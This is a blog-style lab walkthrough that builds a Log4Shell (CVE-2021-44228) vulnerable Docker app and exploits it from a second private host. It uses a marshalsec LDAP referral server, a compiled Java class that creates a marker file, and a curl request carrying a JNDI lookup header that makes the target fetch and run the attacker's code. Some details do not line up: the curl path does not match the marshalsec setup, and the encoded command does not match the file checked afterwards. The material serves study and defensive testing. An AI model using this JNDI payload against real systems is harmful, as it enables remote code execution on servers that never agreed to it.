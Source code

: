 ```yaml
---
layout: post
title: CVE-2021-44228 Log4j Vuln Notes
tags: CVE-2021-44228 Log4j Vuln Notes
categories: CVE-VULNS
---
```


![Image](/img/cve-2021-44228-top.png)

## Installing Vulnerable Machine on the Ubuntu Machine (10.250.1.60)

I will be use thess documents (**https://github.com/christophetd/log4shell-vulnerable-app** , **https://github.com/mbechler/marshalsec** and **https://github.com/xiajun325/apache-log4j-rce-poc/** ) to build CVE-2021-44228 vulnerable machine. Firsting firt i am starting to install docker on that machine.

#### Docker İnstall On The Vulnerable Machine (10.250.1.60)


- `sudo apt update`
- `sudo apt-get install apt-transport-https ca-certificates curl software-properties-common`
- `curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -`
- `sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu  $(lsb_release -cs)  stable"`
- `sudo apt update`
- `sudo apt-get install docker-ce`
- `docker --version`
- `sudo systemctl start docker`
- `sudo systemctl enable docker`
- `sudo systemctl status docker`

![Image](/img/docker.png)

#### Installing Vulnerable Machine (10.250.1.60)

`cd /tmp`
`sudo git clone https://github.com/christophetd/log4shell-vulnerable-app`
`cd log4shell-vulnerable-app/`
`sudo docker build . -t vulnerable-app`
`sudo docker run -p 8080:8080 --name vulnerable-app vulnerable-app`

![Image](/img/installing.png)
![Image](/img/installing2.png)
![Image](/img/installing3.png)

---

## Prepare Attacker Machine (10.250.1.61)

#### Install Java JDK On the Attacker Machine 

`cd /tmp`
`sudo apt update`
`sudo apt-get install default-jdk`
`wget http://mirrors.rootpei.com/jdk/jdk-8u181-linux-x64.tar.gz`
`tar zxvf jdk-8u181-linux-x64.tar.gz`
`sudo mv ./jdk1.8.0_181 /usr/lib/jvm`
`sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_181/bin/java" 1`
`sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_181/bin/javac" 1`
`sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/lib/jvm/jdk1.8.0_181/bin/javaws" 1`
`sudo update-alternatives --config java` **choose the 1.8.0_181**
`sudo update-alternatives --config javac`
`sudo update-alternatives --config javaws`

```
sudo vim /etc/environment

# PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games"
PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/usr/lib/jvm/jdk1.8.0_181/bin:/usr/lib/jvm/jdk1.8.0_181/db/bin:/usr/lib/jvm/jdk1.8.0_181/jre/bin"
J2SDKDIR="/usr/lib/jvm/jdk1.8.0_181"
J2REDIR="/usr/lib/jvm/jdk1.8.0_181/jre*"
JAVA_HOME="/usr/lib/jvm/jdk1.8.0_181"
DERBY_HOME="/usr/lib/jvm/jdk1.8.0_181/db"
```

`echo $JAVA_HOME``

`java -version`

![Image](/img/java_ver.png)

---

#### Prepare LDAP Referrer Server on The Attacker

`cd /tmp`
`sudo apt install maven`
`git clone https://github.com/mbechler/marshalsec`
`cd /tmp/marshalsec`
`sudo mvn clean package -DskipTests`
`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.250.1.61:8000/#Log4jRCE"`

![Image](/img/ldap.png)

#### Prepare Malicious Java Code On The Attacker

`mkdir /tmp/poc`
`cd /tmp/poc`

```
vim Log4jRCE.java

public class Log4jRCE {

    static {
        try {
            String[] cmd = {"code"};
            Runtime.getRuntime().exec("touch /tmp/pwned").waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

`javac Log4jRCE.java`

`sudo python3 -m http.server`

![Image](/img/javac.png)

#### Exploit The Target Machine From The Attacker

`curl 10.250.1.60:8080 -H 'X-Api-Version: ${jndi:ldap://10.250.1.61:1389/Basic/Command/Base64/dG91Y2ggL2V0Yy9wd25lZDE=}'`

#### Verify on the Victim Machine wheater code execution

`sudo docker exec vulnerable-app ls /tmp`

![Image](/img/pwned.png)

